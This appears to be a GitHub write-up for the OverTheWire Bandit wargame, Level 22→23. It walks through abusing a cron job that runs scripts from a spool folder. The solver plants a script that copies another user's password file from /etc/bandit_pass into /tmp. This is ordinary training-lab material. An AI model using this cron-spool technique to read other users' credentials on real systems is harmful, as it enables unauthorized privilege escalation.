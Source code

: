 # 🧨 Bandit Level 22 → Level 23

## 🎯 Goal

The password for the next level is stored in a **file owned by user `bandit23`**.  
But you don’t have permission to read it directly.  
Hint: There’s a cron job running scripts in `/usr/bin/cronjob_bandit23.sh`.

---

## 🖥️ Connection Details

- **Host:** `bandit.labs.overthewire.org`
- **Port:** `2220`
- **Username:** `bandit22`
- **Password:** _Use the password from Level 21_

---

## 🛠️ Steps to Solve

### 1. SSH into Bandit22

```bash
ssh bandit22@bandit.labs.overthewire.org -p 2220

2. Check out the cron job script

cat /usr/bin/cronjob_bandit23.sh

You’ll see something like:

#!/bin/bash

for f in /var/spool/bandit23/*; do
  if [ -x "$f" ]; then
    "$f"
  fi
done

💡 This means:

    Any executable script placed in /var/spool/bandit23/

    Will be run as bandit23 (via cron)

3. Craft your script

Let’s make a script that reads the password file and writes it to a place you can access:

cd /tmp
nano my_script.sh

Paste this inside:

#!/bin/bash
cat /etc/bandit_pass/bandit23 > /tmp/bandit_pass_23

Then make it executable:

chmod +x my_script.sh

4. Move it to the watched cron folder

mv my_script.sh /var/spool/bandit23/

✅ Wait about 1 minute for the cron job to run.
5. Retrieve the password

Check the output:

cat /tmp/bandit_pass_23

🎉 That’s your password for Level 23!
📚 What I Learned

    How to exploit cron job mechanics securely

    File ownership and permission escalation via scheduled tasks

    Timing and automation in privilege separation environments

✅ Result

Password for Level 23 successfully retrieved!
